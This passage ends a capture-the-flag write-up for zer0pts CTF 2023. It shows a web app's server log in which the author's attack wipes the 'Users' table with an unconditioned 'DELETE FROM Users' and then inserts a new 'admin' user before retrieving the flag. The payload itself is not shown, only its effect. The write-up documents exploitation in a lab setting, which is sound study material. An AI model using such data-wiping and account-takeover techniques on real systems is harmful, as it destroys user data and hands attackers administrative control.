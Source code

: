 **Server log:**
```shell
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): INSERT INTO `Users` (`id`,`username`,`password`,`profile`,`createdAt`,`updatedAt`) VALUES (NULL,$1,$2,$3,$4,$5);
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo' AND `User`.`password` = 'bar';
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo' AND `User`.`password` = 'bar';
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): DELETE FROM `Users` WHERE `id` = 21 AND `username` = 'foo' AND `password` = 'bar' AND `profile` = 'foobar' AND `createdAt` = '2023-07-16 05:56:37.598 +00:00' AND `updatedAt` = '2023-07-16 05:56:37.598 +00:00'
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'foo';
app_1  | Executing (default): DELETE FROM `Users`
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'admin';
app_1  | Executing (default): INSERT INTO `Users` (`id`,`username`,`password`,`profile`,`createdAt`,`updatedAt`) VALUES (NULL,$1,$2,$3,$4,$5);
app_1  | Executing (default): SELECT `id`, `username`, `password`, `profile`, `createdAt`, `updatedAt` FROM `Users` AS `User` WHERE `User`.`username` = 'admin';
```

**As you can see, table `Users` is deleted, and our new `admin` user is inserted!!**

**Finally, let's spawn the instance's container, and get the real flag!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/zer0pts-CTF-2023/images/Pasted%20image%2020230716135802.png)
